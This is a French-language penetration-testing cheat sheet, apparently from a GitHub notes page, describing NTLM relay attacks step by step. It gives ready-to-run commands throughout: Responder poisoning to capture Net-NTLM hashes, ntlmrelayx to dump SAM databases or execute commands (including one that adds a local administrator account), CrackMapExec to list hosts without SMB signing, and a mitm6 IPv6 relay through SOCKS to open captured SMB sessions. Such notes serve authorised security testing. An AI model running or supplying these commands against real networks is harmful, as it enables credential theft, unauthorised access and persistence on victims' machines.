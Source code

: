 # NTLM Relay

Prendre la dernière version de Responder ([https://github.com/lgandx/Responder](https://github.com/lgandx/Responder))

### Ecoute passive

```
sudo python3 responder -I eth0
```

Les _hashs_ NT utilisé dans la version 1 et 2 du protocole NTLM (a.k.a Net-NTLMv1-SSP et Net-NTLMv2-SSP) peuvent être relayés.

### Relayer

Pour pouvoir relayer, il faut que les services SMB et HTTP de Responder soit stoppés (fichier de configuration Responder.conf). Ceci permet le bon fonctionnement de `ntlmrelayx`.

_**Note :** les deux scripts doivent être exécutés dans le même contexte, pas dans 2 conteneurs Docker différents._

```
# Terminal 1 (dans le docker impacket)
Dumper la base SAM : ntlmrelayx -tf <TARGETS.txt>
Exécuter une commande : ntlmrelayx -tf <TARGETS.txt> -c <COMMANDE ou METERPRETER>

# Terminal 2
sudo python3 responder -I eth0 -d -w # Les hashs sont visibles dans Responder/logs/Responder-Session.log
```

#### TIPS

* `-smb2support` : Option qui permet de supporter le protocole SMBv2
* `-i` : Option pour exécuter des commandes de manière interactive
* `-c "net user user pass /add && net localgroup Administrators user /add"` : Ajoute un administrateur local

Le fichier `TARGETS.txt` contient les IP des machines dont la signature SMB n'est pas activée. Cette liste de machine peut être récupérée avec la commande suivante :&#x20;

```
cme smb <IP>/<MASK> --gen-relay-list <TARGETS.txt>
```

### IPv6

Prendre la dernière version de `mitm6` ([https://github.com/dirkjanm/mitm6](https://github.com/dirkjanm/mitm6)). Après l'installation, en cas d'erreur `matplotlib`, exécuter la commande suivante :&#x20;

```
sudo pip install --upgrade matplotlib
```

Pour relayer les commandes sont les suivantes :&#x20;

```
# Modification du fichier de configuration /etc/proxychains4.conf
socks4 127.0.0.1 1080

# Terminal 1
impacket-ntlmrelayx.py -6 -wh FAKE.<DOMAIN.LOCAL> -tf <TARGETS.txt> -smb2support -socks -l /tmp

> socks (pour voir les sessions capturées)

# Terminal 2 
sudo mitm6 -d <DOMAIN.LOCAL>

# Terminal 3
proxychains smbclient //<IP>/<SHARE> -U <UNE SESSION CAPTUREE>
> Mettre "pass" quand le mot de passe est demandé
```
